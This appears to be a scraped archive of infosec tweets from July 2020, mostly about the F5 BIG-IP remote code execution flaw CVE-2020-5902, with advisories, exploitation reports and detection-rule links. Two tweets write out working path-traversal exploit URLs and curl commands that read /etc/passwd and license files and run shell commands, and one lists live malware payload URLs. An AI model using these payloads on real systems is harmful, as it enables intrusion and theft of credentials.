https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1281483341905059844 _at 2020-07-10, 07:00:12_**
<blockquote>
Important — Instead of applying a patch, if you're relying on mitigation provided for F5 BIG-IP RCE #vulnerability (CVE-2020-5902), you're still at risk of getting hacked.

Researchers (@CharlesDardaman , @0xm1rch  @TeamAresSec) discover a bypass.

https://t.co/Q5Cfey1sp6
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1281248760320974850 _at 2020-07-09, 15:28:03_**
<blockquote>
CVE-2020-1300 - Remote code execution via #Windows CAB files. Our colleagues from Trend Micro Research bring all the details about this recently patched bug. Read them at https://t.co/BBogMCZo0r
</blockquote>

* https://bit.ly/2ZXbQjm

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>180</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1281168794061344768 _at 2020-07-09, 10:10:18_**
<blockquote>
RT @IanColdwater: New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP servi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1280944249257762817 _at 2020-07-08, 19:18:02_**
<blockquote>
What's that? You haven't had enough network appliance vulnerabilities yet? Fine.
https://t.co/rFkqpdA1Ps
CVE-2020-2034 is: an unauthenticated network-based attacker can execute arbitrary OS commands with root privileges.
</blockquote>

* https://security.paloaltonetworks.com/CVE-2020-2034

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1280939235055296513 _at 2020-07-08, 18:58:06_**
<blockquote>
An exploitation case study of CVE-2020-1062, a use-after-free vulnerability in IE11 https://t.co/a13K4NcCyG
</blockquote>

* https://www.accenture.com/us-en/blogs/cyber-defense/exploitation-case-study-cve-2020-1062-vulnerability-in-ie11

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# IanColdwater
**https://twitter.com/IanColdwater/status/1280900915092951042 _at 2020-07-08, 16:25:50_**
<blockquote>
New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP services bound to 127.0.0.1 running on the node or in the node's network namespace. Severity: high if insecure port enabled, otherwise med.

https://t.co/dC4Bgwp0ah
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92315

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---

# ehakkus
**https://twitter.com/ehakkus/status/1280750903167979523 _at 2020-07-08, 06:29:45_**
<blockquote>
(CVE-2020-14930) #metasploit auxiliary module is ready for authentication bypass #0day which I discovered in CTROMS port management application. You can access #exploit and description from my personal blog. https://t.co/7rOJKtFuz5 (EDB-ID: 48196) https://t.co/Ld2IXEFsWJ
</blockquote>

* https://bit.ly/31QmcnU

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280643826009456640 _at 2020-07-07, 23:24:15_**
<blockquote>
👀

&gt; F5 BIG-IP RCE CVE-2020-5902 exploit
&gt; Detected several minutes ago
&gt; Exploit slung exclusively over TLS
&gt; Source IP in M247, known APT favorite
&gt; IP is also running a Mullvad VPN gateway, via https://t.co/LHK7DddYEl

HMMmmm

https://t.co/TL6le6dLKz https://t.co/krBm6koRN8
</blockquote>

* http://spur.us
* https://viz.greynoise.io/ip/45.152.183.30

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280619226454163458 _at 2020-07-07, 21:46:30_**
<blockquote>
Someone in Namecheap already using the Metasploit module to exploit the F5 Big-IP CVE-2020-5902 RCE vuln. 

This module was merged to master in Metasploit GitHub...... four hours ago

https://t.co/1qiPhBgXFU https://t.co/SrsTj3LkS5
</blockquote>

* https://viz.greynoise.io/ip/63.250.33.58

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>327</code></td>
</tr></table>

---

# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280553293320781825 _at 2020-07-07, 17:24:31_**
<blockquote>
If you are relying on mitigations for CVE-2020-5902 we highly recommend that you patch. Our researchers @CharlesDardaman and @0xm1rch found a bypass to the mitigation and are working with F5 to have the advisory updated. #infosec #CVE https://t.co/IqmtfZ8WER
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>170</code></td>
<td>Favorites: <code>296</code></td>
</tr></table>

---

# TeamAresSec
**https://twitter.com/TeamAresSec/status/1280279161219633152 _at 2020-07-06, 23:15:13_**
<blockquote>
Since multiple exploits have been released for CVE-2020-5902 we have decided to share what @0xm1rch and @CharlesDardaman did in order to gain code execution on the F5 Big IPs #infosec  https://t.co/HzjPlYWo35
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---

# ajxchapman
**https://twitter.com/ajxchapman/status/1280200420363767810 _at 2020-07-06, 18:02:19_**
<blockquote>
Spamming Bug Bounty programs with 1-day exploits (see CVE-2020-5902) is the Ambulance Chasing of bug hunting. Any sensible program will have a condition to allow them time to patch before paying out for these issues. #BugBounty #UnpopularOpinion
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>289</code></td>
</tr></table>

---

# Bugcrowd
**https://twitter.com/Bugcrowd/status/1280194481397080064 _at 2020-07-06, 17:38:43_**
<blockquote>
BREAKING 🚨 Bugcrowd security researchers are working around the clock to stop cybercriminals from stealing admin passwords using the CVE-2020-5902 remote code execution vulnerability in BIG-IP. Read the latest: https://t.co/QJMJrVXYZs https://t.co/M3JBuof4z3
</blockquote>

* https://www.helpnetsecurity.com/2020/07/06/exploit-cve-2020-5902/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1280153168391921664 _at 2020-07-06, 14:54:34_**
<blockquote>
GreyNoise is observing "vuln check probes" and active opportunistic exploitation of the recent F5 RCE vulnerability CVE-2020-5902 from multiple devices. Tags are available for all users now. 

tags:"F5 BIG-IP TMUI RCE"
tags:"F5 BIG-IP TMUI RCE Vuln Check"

https://t.co/aJm1oPboj6 https://t.co/vHZbvOln22
</blockquote>

* https://viz.greynoise.io/query/?gnql=tags%3A%22F5%20BIG-IP%20TMUI%20RCE%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>227</code></td>
</tr></table>

---

# infosecnews_
**https://twitter.com/infosecnews_/status/1280096111332655105 _at 2020-07-06, 11:07:50_**
<blockquote>
USCYBERCOM urgently recommends F5 customers to patch CVE-2020-5902 and 5903 NOW https://t.co/PHxFRwUPV1 #InfoSec #Security #F5 #InfoSecNews #RCE #PoC #ZeroDay #Hacker #Hackers #Hacking #Russia #China #CVE #USCYBERCOM
</blockquote>

* https://www.infosecnews.org/uscybercom-urgently-recommends-f5-customers-to-patch-cve-2020-5902-and-5903-now/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1280070065896017926 _at 2020-07-06, 09:24:20_**
<blockquote>
We're now seeing staged payloads for the F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 vuln - see - https://t.co/sSr4JIZwu3 https://t.co/o1Z7lTWSW8
</blockquote>

* https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1280062445000822786 _at 2020-07-06, 08:54:03_**
<blockquote>
[CPR-Zero] CVE-2020-9497 &amp; CVE-2020-9498 (Apache Guacamole): Remote Code Execution and Privilege Escalation in Apache Guacamole-server
https://t.co/2pKjFtRv85
https://t.co/qZIjxaMSje
https://t.co/xsCux5tWGR
https://t.co/rnlzY9xS5V
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2141/
* https://cpr-zero.checkpoint.com/vulns/cprid-2142/
* https://cpr-zero.checkpoint.com/vulns/cprid-2143/
* https://cpr-zero.checkpoint.com/vulns/cprid-2144/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1280033103751282689 _at 2020-07-06, 06:57:28_**
<blockquote>
RT @wugeej: F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/pass…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1280008779359125504 _at 2020-07-06, 05:20:49_**
<blockquote>
F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license

RCE
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

https://t.co/3Ete09oVP6 https://t.co/zBAfdIZBa2
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>453</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1279986441385172993 _at 2020-07-06, 03:52:03_**
<blockquote>
Active DDoS malware payload detected:
http://panel.devilsden[.]net/iot.sh
http://185.172.111.233:999/sisi/*
 (https://t.co/qmOnNTxywH)

Exploit attempt source IP: 2.57.122.96 (🇷🇴)

Target: F5 BIG-IP TMUI RCE vulnerability CVE-2020-5902 (https://t.co/y5Uor8B0qi) #threatintel https://t.co/oprQHizid7
</blockquote>

* https://www.virustotal.com/gui/url/d855d772abbc14e7629ce714fa563d1c0e46c35a2bd86f5325724e6a9c35986c/details
* https://badpackets.net/over-1800-f5-big-ip-endpoints-vulnerable-to-cve-2020-5902/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# kevvyg
**https://twitter.com/kevvyg/status/1279894238793216001 _at 2020-07-05, 21:45:40_**
<blockquote>
Been trying to relax this weekend, but infosec never sleeps, and this one is just so bad. Gonna take a minute to break it down for folks who have F5 in their environment, but haven't gotten a good feel for the actual real world impact  of CVE-2020-5902 (thread)
</blockquote>

<table><tr>
<td>Quotes: <code>37</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>193</code></td>
<td>Favorites: <code>425</code></td>
</tr></table>

---

# certbund
**https://twitter.com/certbund/status/1279892212449447941 _at 2020-07-05, 21:37:37_**
<blockquote>
🩹⚠️ Operators of #F5 BIG-IP systems (LTM, AAM, AFM, Analytics, APM, ASM, DNS, FPS, GTM, Link Controller, PEM) should patch ➡️ remote code execution vulnerability CVE-2020-5902 in Traffic Management User Interface (TMUI) now. Active scanning/exploitation is ongoing.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# omespino
**https://twitter.com/omespino/status/1279885683255984129 _at 2020-07-05, 21:11:40_**
<blockquote>
Hey mates, it's just me or twitter feed is flooded of CVE-2020-5902, lol #bugbounty #infosec https://t.co/VIJwRHwwSP
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>370</code></td>
</tr></table>

---

# catc0n
**https://twitter.com/catc0n/status/1279883738579709952 _at 2020-07-05, 21:03:57_**
<blockquote>
We've seen a lot of PoC for CVE-2020-5902 that gets to file reads or info disclosures—Metasploit published initial exploit code today that gets a root shell on vulnerable BIG-IP versions. https://t.co/2Thr74Rt8R
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13807

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>201</code></td>
<td>Favorites: <code>382</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279882456175276032 _at 2020-07-05, 20:58:51_**
<blockquote>
Here's an NMAP script to detect F5's BIG-IP servers vulnerable to recently disclosed RCE #vulnerability (CVE-2020-5902).

https://t.co/voeLuOHz2u

via @RandomDhiraj 

#infosec
</blockquote>

* https://twitter.com/RandomDhiraj/status/1279842348348956672

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---

# MrTuxracer
**https://twitter.com/MrTuxracer/status/1279869037607084032 _at 2020-07-05, 20:05:32_**
<blockquote>
While everybody is working on CVE-2020-5902, I am trying to get my first own browser exploit to work. My ROP chain to bypass DEP seems to be the problem atm and it drives me super crazy 🦄🦄

But it still feels good to get back to my roots!😊
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1279848212606615552 _at 2020-07-05, 18:42:46_**
<blockquote>
CVE-2020-5902 F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed.. https://t.co/laQLPQXf7K
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1279843915978338304 _at 2020-07-05, 18:25:42_**
<blockquote>
Our preliminary CVE-2020-5902 scans have located 1,832 vulnerable F5 hosts.

System administrators need to upgrade to fixed versions ASAP. A proof-of-concept exploit is now publicly available.
</blockquote>

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1279842348348956672 _at 2020-07-05, 18:19:28_**
<blockquote>
A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>944</code></td>
</tr></table>

---

# xer0dayz
**https://twitter.com/xer0dayz/status/1279815244303331328 _at 2020-07-05, 16:31:46_**
<blockquote>
Added sc0pe templates to scan and detect CVE-2020-5902 Remote Code Execution &amp; XSS on F5 BIG-IP devices to Sn1per. https://t.co/qEnX1iZ8H4

#hackers #hacking #bugbounty #bugbountytips #pentesting #pentest #redteam #OSINT #recon #tools #offsec #CTF #netsec #PoC #exploit
</blockquote>

* https://github.com/1N3/Sn1per

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# x4ce
**https://twitter.com/x4ce/status/1279790599793545216 _at 2020-07-05, 14:53:51_**
<blockquote>
cve-2020-5902 :
RCE: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
Read File: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

Well, Thanks Me Letter.
</blockquote>

<table><tr>
<td>Quotes: <code>38</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>379</code></td>
<td>Favorites: <code>696</code></td>
</tr></table>

---

# ntlmrelay
**https://twitter.com/ntlmrelay/status/1279771865247109120 _at 2020-07-05, 13:39:24_**
<blockquote>
Rules to detect exploitation of #F5 BIG-IP TMUI #vulnerability (#CVE-2020-5902)

#SIGMA (by @cyb3rops / @SOC_Prime ):
➡️ https://t.co/SLZLrl4gVG
➡️https://t.co/W3hSLbCnul 

#Snort/#Suricata by @ET_Labs (ET Open):
➡️https://t.co/gbJdyKOWHY 
#BlueTeam #SOC #ThreatHunting #Exploit https://t.co/96TYY2I2Rm
</blockquote>

* https://tdm.socprime.com/tdm/info/a3bYpIF6od6C
* https://github.com/Neo23x0/sigma/blob/master/rules/web/web_cve_2020_5902_f5_bigip.yml
* https://pastebin.com/2PbtrJ28

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>264</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1279719835312640000 _at 2020-07-05, 10:12:39_**
<blockquote>
CVE-2020-5902 allows for unauthenticated attackers  execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code. 

👇just an example https://t.co/HfdV79iO3A
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>315</code></td>
<td>Favorites: <code>789</code></td>
</tr></table>

---

# CharlesDardaman
**https://twitter.com/CharlesDardaman/status/1279581691573567489 _at 2020-07-05, 01:03:43_**
<blockquote>
Spent some time with @0xm1rch to get our exploit working for the F5 Big-IP TMUI vuln (CVE-2020-5902) We also got LPE working easily #infosec https://t.co/BxMUSPcLAD
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>255</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1279523931624484866 _at 2020-07-04, 21:14:12_**
<blockquote>
F5 has released a security advisory to address a critical RCE vulnerability (CVE-2020-5902) in the BIG-IP Traffic Management User Interface (TMUI). Read more at https://t.co/aHxgi33mdV #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xfqJA

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>186</code></td>
<td>Favorites: <code>292</code></td>
</tr></table>

---

# F5Security
**https://twitter.com/F5Security/status/1279474093486747648 _at 2020-07-04, 17:56:10_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/4xADlQ3N6V #BIGIP #AskF5
</blockquote>

* https://go.f5.net/s3pfp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279423483303194624 _at 2020-07-04, 14:35:03_**
<blockquote>
Critical Unauthorized RCE #Vulnerability (CVE-2020-5902 with CVSS Score 10/10) Affects F5's BIG-IP Application Security Servers Used in large Enterprises, Data Centers, and #CloudComputing Environments.

Details — https://t.co/6Fmean9wC4

Apply Newly Released Patch Updates ASAP! https://t.co/AWIRTMoHft
</blockquote>

* https://thehackernews.com/2020/07/f5-big-ip-application-security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>193</code></td>
<td>Favorites: <code>288</code></td>
</tr></table>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1279399391166713856 _at 2020-07-04, 12:59:19_**
<blockquote>
We're seeing active exploitation of the @F5Networks K52145254: TMUI RCE vulnerability #CVE-2020-5902 issue. The threat actor is after web.xml or /etc/hosts - https://t.co/9AKpWGSrEj.
</blockquote>

* https://support.f5.com/csp/article/K52145254

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1279158081847468033 _at 2020-07-03, 21:00:26_**
<blockquote>
RT @CNMF_CyberAlert: URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately. https://t.co/…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CNMF_CyberAlert
**https://twitter.com/CNMF_CyberAlert/status/1279151966178902016 _at 2020-07-03, 20:36:08_**
<blockquote>
URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately.
</blockquote>

<table><tr>
<td>Quotes: <code>92</code></td>
<td>Replies: <code>27</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>1233</code></td>
</tr></table>

---

# F5
**https://twitter.com/F5/status/1279022116868960257 _at 2020-07-03, 12:00:10_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/yTL0iUBajI #BIGIP #AskF5
</blockquote>

* https://go.f5.net/dk3nl

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>325</code></td>
<td>Favorites: <code>441</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1279001035311403008 _at 2020-07-03, 10:36:24_**
<blockquote>
BIG-IP customers may want to pay attention to CVE-2020-5902. 

Remote code execution, unauthenticated, ../.. traversal ascii style to management interface.

https://t.co/Oh1kO0TkiP
</blockquote>

* https://nvd.nist.gov/vuln/detail/CVE-2020-5902

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# pentestltd
**https://twitter.com/pentestltd/status/1278961377768546304 _at 2020-07-03, 07:58:49_**
<blockquote>
Read all about our latest #research - A Remote Code Execution (RCE) vulnerability our researchers found within #Drupal Core, versions 8 &amp; 9 (CVE-2020-13664). Huge well to Lorenzo Grespan and @_s_n_t for all their hard work on this ---&gt; https://t.co/8yZdsHMQPo https://t.co/iv9z4zL8dF
</blockquote>

* https://buff.ly/3iyKSr0

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# yorickkoster
**https://twitter.com/yorickkoster/status/1278252429289684998 _at 2020-07-01, 09:01:42_**
<blockquote>
Now that the cat is out of the bag, I have made my BitDefender VPN LPE proof of concept public:

https://t.co/RCaf6bDflX

Great job describing your research approach for CVE-2020-12828 @0xsha 👍
</blockquote>

* https://gist.github.com/ykoster/b627130ea1ec1e4d5a1b996092077805

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1278192608775454722 _at 2020-07-01, 05:04:00_**
<blockquote>
Microsoft has releases an emergency security update on Monday to fix two RCE bugs in the Windows Codecs Library

-Update delivered through the Windows Store
-No user interaction needed
-CVE-2020-1425 &amp; CVE-2020-1457

https://t.co/RyA1yhmU1m https://t.co/3auScXsswZ
</blockquote>

* https://www.zdnet.com/article/microsoft-releases-emergency-security-update-to-fix-two-bugs-in-windows-codecs/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

